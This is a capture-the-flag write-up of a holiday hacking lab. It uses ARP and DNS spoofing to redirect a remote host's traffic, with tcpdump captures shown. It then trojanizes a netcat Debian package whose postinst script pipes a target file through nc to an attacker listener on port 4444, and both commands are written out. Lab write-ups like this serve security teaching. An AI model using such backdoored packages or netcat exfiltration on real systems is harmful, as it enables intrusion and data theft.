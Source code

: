 # Objective 9: ARP Shenanigans

The objective is to get hold of the file /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt on a remote host using ARP  and DNS spoofing.

Exercise setup:
||Local Host|Remote Host  |Spoofed Host|
|--|--|--|--|
|MAC|02:42:0a:06:00:02  | 4c:24:57ab:ed:84 ||
|IP| 10.6.0.2 | 10.6.6.35 |10.6.6.53|

A [Python Scapy script](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/arp_resp-py) was prepared to spoof ARP replies for the spoofed host redirecting the traffic to the local host.

Capture of ARP spoofing success with following DNS query:

    15:57:47.028750 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
    15:57:47.057274 IP 10.6.6.35.27609 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)`

Next a [Python Scapy script](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/dns_resp.py) was prepared to capture DNS requests to the spoofed host and to send replies redirecting traffic to ftp.osuosl.org to the local host.

Capture of ARP and DNS spoofing with following HTTP request:

    17:27:16.968588 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
    17:27:16.992764 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
    17:27:17.009009 IP 10.6.6.35.16498 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
    17:27:17.029673 IP 10.6.6.53.53 > 10.6.6.35.16498: 0*- 1/0/0 A 10.6.0.2 (62)
    17:27:18.098422 IP 10.6.6.35.50340 > 10.6.0.2.80: Flags [S], seq 2451495177, win 64240, options [mss 1460,sackOK,TS val 2516141758 ecr 0,nop,wscale 7], length 0
    17:27:18.098452 IP 10.6.0.2.80 > 10.6.6.35.50340: Flags [R.], seq 0, ack 2451495178, win 0, length 0

A Node.js HTTP server was started and it logged the request:

    10.6.6.35 - - [12/Dec/2020 17:37:02] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -

On the device the Debian package netcat-traditional_1.10-41.1ubuntu1_amd64.deb was found.
This package was modified to include this line in the postinst script:

    /bin/nc 10.6.0.2 4444 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt

and then made available in the web tree folder as pub/jfrost/backdoor/suriv_amd64.deb.
That way the remote device would download this package and install it. In course of the installation, the file in scope would be sent to port 4444 of the local host, which has to run the command

    nc -lvp 4444 > text
to receive the [text](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt).
In this file can be found that **Tanta Kringle** recused herself from the vote.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTgzNzA5NzU1NSwtMTc5ODQxNTg5NiwtOD
c4MzkyMjE2LDUxNDIwOTE1OV19
-->
